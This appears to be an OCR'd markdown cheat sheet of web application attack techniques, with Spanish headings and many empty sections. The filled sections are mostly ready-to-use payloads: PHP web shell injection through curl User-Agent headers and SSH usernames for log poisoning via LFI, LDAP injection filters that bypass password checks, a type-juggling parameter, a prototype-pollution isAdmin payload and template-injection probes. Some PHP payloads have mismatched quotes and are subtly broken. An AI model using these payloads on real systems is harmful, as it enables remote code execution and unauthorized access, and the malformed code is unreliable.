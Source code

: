 ### Remote File Inclusion (RFI)

### Log Poisoning (LFI -> RCE)
 - curl -s -X GET "http://target" -H "User-Agent: <?php system(\$_GET['cmd']"); ?>
 - ?file=/var/log/apache2/access.log
 - ssh '<?php system($_GET["cmd"]"); ?>'@{ip}
 - cat /var/log/btmp ; echo

### Cross-Site Request Forgery (CSRF)

### Server-Side Request Forgery (SSRF)

### Server-Side Template Injection (SSTI)
 - {{7*7}}

### Client-Side Template Injection (CSTI)
 - {{7*7}}

### Ataque de oráculo de relleno (Padding Oracle)
 - Comandos: padbuster

### Ataque Type Juggling
 - POST: password[]=algo

### Inyecciones NoSQL
 - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
 - https://book.hacktricks.xyz/pentesting-web/nosql-injection

### Inyecciones LDAP
 - Comandos: ldapsearch, ldapadd
 - (&(cn=admin)(userPassword=*))
 - (&(cn=admin))%00

### Ataques de Deserialización

### Inyecciones LaTeX

### Abuso de APIs

### Abuso de subidas de archivos

### Prototype Pollution
 - "__proto__": {"isAdmin" : true}

### Ataques de transferencia de zona (AXFR - Full Zone Transfer)
 - Comandos: dig
